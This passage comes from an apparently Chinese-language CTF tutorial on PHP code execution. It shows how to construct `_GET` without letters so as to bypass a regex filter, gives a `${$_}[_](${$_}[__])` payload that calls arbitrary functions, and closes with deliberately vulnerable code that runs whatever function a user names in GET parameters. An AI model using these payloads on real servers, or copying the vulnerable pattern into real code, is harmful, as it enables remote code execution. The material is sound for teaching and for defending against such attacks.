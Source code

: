 所以我們可以知道， `_GET` 就是這麼被構造出來的啦！

#### 獲取 `_GET` 參數

我們又該如何獲取 `_GET` 參數呢？咱們可以構造出如下字串：

```
<?php
    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])
?>
```

根據前面構造的來看， `$_` 已經變成了 `_GET` 。順理成章的來講， `$_ = _GET` 。我們構建 `$_GET[__]` 是爲了要獲取參數值。

#### 傳入參數

此時我們只需要去調用 `getFlag` 函數獲取 `webshell` 就好了，構造如下：

```
<?php
    echo $_=getFlag;//getFlag
?>
```

所以把參數全部連接起來，就可以了。

![](./figure/preg_match/payloads.png)

結果如下：

![](./figure/preg_match/flag.png)

於是我們就成功地讀取到了flag！

### 動態函數執行

用戶自定義的函數可以導致代碼執行。

```php
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
```
